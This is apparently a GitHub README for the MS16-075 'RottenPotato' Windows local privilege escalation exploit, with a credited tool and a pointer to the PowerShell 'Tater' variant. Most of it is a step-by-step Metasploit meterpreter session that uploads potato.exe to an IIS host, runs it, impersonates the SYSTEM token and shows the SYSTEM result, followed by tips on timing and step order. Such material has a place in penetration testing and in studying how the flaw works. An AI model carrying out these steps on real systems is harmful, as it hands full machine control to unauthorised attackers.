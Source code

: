 # MS16-075 

- The potato.exe was from [@FoxGlove](https://github.com/foxglovesec/RottenPotato)
- For a technical overview of this [exploit]( https://foxglovesecurity.com/2016/09/26/rotten-potato-privilege-escalation-from-service-accounts-to-system/)

Vulnerability reference:
 * [MS16-075](https://technet.microsoft.com/library/security/MS16-075)
 

## RottenPotato

Local Privilege Escalation from Windows Service Accounts to SYSTEM

## Videos for example
- [SQL Server](https://www.youtube.com/watch?v=3CPdKMeB0UY) 
- [IIS](https://www.youtube.com/watch?v=wK0r-TZR7w8)

## Usage of msf
```
msf exploit(web_delivery) > set ExitOnsession false
msf exploit(web_delivery) > run
meterpreter > getuid
Server username: IIS APPPOOL\DefaultAppPool
meterpreter > getprivs
===========================================================
Enabled Process Privileges
===========================================================
 SeAssignPrimaryTokenPrivilege

meterpreter > upload  /root/potato.exe C:\Users\Public
meterpreter > cd C:\\Users\\Public
meterpreter > use incognito
meterpreter > list_tokens -u
NT AUTHORITY\IUSR

meterpreter > execute -cH -f ./potato.exe
meterpreter > list_tokens -u
NT AUTHORITY\IUSR
NT AUTHORITY\SYSTEM

meterpreter > impersonate_token "NT AUTHORITY\\SYSTEM"

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```

### Get a shell has Privileges:SeAssignPrimaryTokenPrivilege

![iis](img/IIS_shell.png)

### Get system Privilege

![potato](img/potato.png)
***
- It is important to impersonate the token (or run list_tokens -u) quickly after runnning the binary.
- It is also important to follow the order of the steps. 
- Make sure you "use incognito" before running the binary.

***

## Tater

a PowerShell implementation of the Hot Potato Windows Privilege Escalation exploit

- The Tater was from [@Kevin-Robertson](https://github.com/Kevin-Robertson/Tater)
![win10](img/win10.png)  

